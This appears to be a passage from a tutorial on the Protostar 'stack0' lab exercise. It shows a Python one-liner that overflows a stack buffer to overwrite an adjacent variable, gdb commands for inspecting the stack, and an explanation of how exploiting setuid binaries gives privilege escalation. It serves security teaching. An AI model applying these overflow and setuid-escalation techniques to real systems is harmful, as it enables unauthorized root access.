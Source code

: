 ```bash
python -c "print 'a'*64;" | stack0
```

This input will overwrite the first byte of  `modified` as the python code
`print 'a'*64` will produce a 65 character string consisting of 64 `a`
characters and a `0x0a` newline character. Let's use `gdb` to see the impact on
a running process.

```bash
$ python -c "print 'a'*64" > input.txt

$ gdb stack0
disass main // view the disassembly for the main function
break *0x08048411 // put a breakpoint right after the call to gets()
r < input.txt // run the binary with the long input
x/s $esp+0x1c // to see the input string in stack memory
x/68bx $esp+0x1c // to see input string bytes in hex
//Warning, everything is flipped! higher addresses are lower
//The 0x0a000000 right after the 'aaaa' is the memory for `modified`
```

### Setuid Binaries

The above text explains the mechanics of how we, as the attacker, can use a
buffer overflow to modify adjacent variables on the stack. But the explanation
doesn't answer an important question: Why is it that we don't have permission
to read "flag.txt" from the command line, but the exploited binary *can* read
and print out  "flag.txt"? The answer is that the binary runs with different
permissions than the user.

Let's take a look at the `stack0` binary using the `file` utility: `file
./stack0`. The output includes a curious bit of text calling stack0 a "setuid"
ELF executable.  What does "setuid" mean here?  To find out, we start the same
way we always do on Linux: reading the MAN page. 

The `setuid` man page gives us more information---specifically, about the C
library function. We can see that **setuid** stands for set user identity. It
allows a process to run as if it were started by a different user and,
consequently, run with that user's permissions. Setuid binaries can even run as
`root`.   If an attacker can exploit a setuid binary running as root, he
effectively has root privileges.  Thus, setuid binaries are useful for
achieving **privilege escalation**, i.e., increasing the level of privilege
that an attacker has on the system.

So why does the `setuid` functionality exist at all?  It is often used to allow
an unprivileged user to access hardware features or to *temporarily* give a
user elevated privileges. For example, `ping` and `sudo` are both setuid
binaries.  Fortunately, a malicious user with basic user permissions cannot
merely write a program and use setuid to make that program run as root. The OS
has mechanisms and policies in place to prevent that, as we can infer from
looking at the errors section of the `setuid` man page. 

